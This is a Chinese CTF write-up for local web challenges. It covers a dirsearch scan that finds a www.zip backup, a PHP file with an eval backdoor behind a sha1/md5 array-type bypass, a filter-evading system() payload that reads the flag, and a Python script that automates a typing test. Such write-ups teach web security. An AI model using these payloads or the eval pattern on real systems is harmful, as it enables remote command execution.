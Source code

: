 ```yaml
---
title: 'Week2 Web 网络攻防'
date: '2025-04-23T20:32:27+08:00'
weight: 
draft: false
description: 'Week2 Web 网络攻防'
---
```


## 遗失的拉链

**提示：Pangbai 的拉链找不到了 你可以帮他找到他的拉链吗**

根据提示拉链应该与 `zip` 有关，这里说拉链找不到了，可以使用 dirsearch 进行目录扫描查找与 `zip` 相关的内容

```shell
python dirsearch.py -u 127.0.0.1:3307
```

扫描结果：

```shell

  _|. _ _  _  _  _ _|_    v0.4.3
 (_||| _) (/_(_|| (_| )

Extensions: php, aspx, jsp, html, js | HTTP method: GET | Threads: 25 | Wordlist size: 11460

Output File: C:\Users\puppy\Desktop\dirsearch-0.4.3\reports\_127.0.0.1_3307\_25-04-24_09-08-17.txt

Target: http://127.0.0.1:3307/

[09:08:18] Starting:
[09:08:24] 403 -  276B  - /.ht_wsr.txt
[09:08:24] 403 -  276B  - /.htaccess.save
[09:08:24] 403 -  276B  - /.htaccess.sample
[09:08:24] 403 -  276B  - /.htaccess.orig
[09:08:24] 403 -  276B  - /.htaccess.bak1
[09:08:24] 403 -  276B  - /.htaccess_extra
[09:08:24] 403 -  276B  - /.htaccessBAK
[09:08:24] 403 -  276B  - /.htaccess_orig
[09:08:24] 403 -  276B  - /.htaccess_sc
[09:08:24] 403 -  276B  - /.htaccessOLD2
[09:08:24] 403 -  276B  - /.htaccessOLD
[09:08:24] 403 -  276B  - /.html
[09:08:24] 403 -  276B  - /.htm
[09:08:24] 403 -  276B  - /.htpasswd_test
[09:08:24] 403 -  276B  - /.httr-oauth
[09:08:24] 403 -  276B  - /.htpasswds
[09:08:58] 200 -  861B  - /index.html
[09:09:17] 200 -    3KB - /server-status/
[09:09:17] 200 -    3KB - /server-status
[09:09:32] 200 -    1KB - /www.zip

Task Completed
```

访问 `127.0.0.1:3307/www.zip`，下载解压后得到 `pizwww.php`

```php
<?php
error_reporting(0);
//for fun
if(isset($_GET['new'])&&isset($_POST['star'])){
    if(sha1($_GET['new'])===md5($_POST['star'])&&$_GET['new']!==$_POST['star']){
        //欸 为啥sha1和md5相等呢
        $cmd = $_POST['cmd'];
        if (preg_match("/cat|flag/i", $cmd)) {
            die("u can not do this ");
        }
        echo eval($cmd);
    }else{
        echo "Wrong";

    } 
}
```

使用 `GET` 方式传入 `new[]=1`，`POST` 方式传入 `star[]=2&cmd=system("ca$(echo t) /fla$(echo g)");`

![PixPin_2025-05-09_20-38-25](https://Puppy1599.github.io/picx-images-hosting/Typora/networkSecurity/PixPin_2025-05-09_20-38-25.6pnq5j5elj.webp)

获得 `flag`：`flag{32cba65e-2c30-0a97-726c-fc7317e00cb3}`

## 你能在一秒内打出八句英文吗

使用 Python 的 request 模块模拟请求

```Python
import requests
from bs4 import BeautifulSoup

start_url = "http://127.0.0.1:3307/start"
submit_url = "http://127.0.0.1:3307/submit"

session = requests.Session()
start_response = session.get(start_url)

soup = BeautifulSoup(start_response.text, "lxml")
element = soup.find('p', {'id': 'text'})
text = element.get_text()

payload = {'user_input' : text}
response = session.post(submit_url, data=payload)

with open('response_text/你能在一秒钟打出八句英文吗.html', 'w', encoding='utf-8') as f:
    f.write(response.text)

print('Success')
```

